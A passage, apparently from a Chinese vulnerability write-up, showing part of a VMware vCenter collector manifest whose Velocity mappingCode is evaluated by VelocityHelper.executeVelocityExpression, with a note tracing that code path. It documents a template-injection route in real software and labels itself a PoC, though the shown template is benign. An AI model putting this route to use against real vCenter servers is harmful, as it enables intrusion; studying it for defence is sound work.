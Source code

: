 ```plain
                        #set($obj = $LOCAL-cdf20Result.newObject("vim.ServiceInstance", $objectId))##
                        $obj.addProperty("OSTYPE", "VMware can't steal this PoC")##
                        $obj.addProperty("BUILD", $content-about-build)##
                        $obj.addProperty("VERSION", $content-about-version)##]]>
                     </mappingCode>
                     </resourceItemToJsonLdMapping>
                  </value>
               </value>
            </entry>
         </resultSetMappings>
      </indepedentResultsMapping>
   </cdfMapping>
   <requestSchedules>
      <schedule interval="1h">
         <queries>
            <query>vir:VCenter</query>
         </queries>
      </schedule>
   </requestSchedules>
</manifest>
```

com.vmware.ph.phservice.collector.internal.cdf.mapping.ResourceItemToJsonLdMapping#map  
跟中到如下位置，解析manifest获取mappingCode，调用VelocityHelper.executeVelocityExpression执行velocity表达式  
[![](assets/1704161823-17e368bec4317cd2bdb9ce72d17e65b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221011122418-92a27d26-491c-1.png)  
堆栈太长，完整的如下
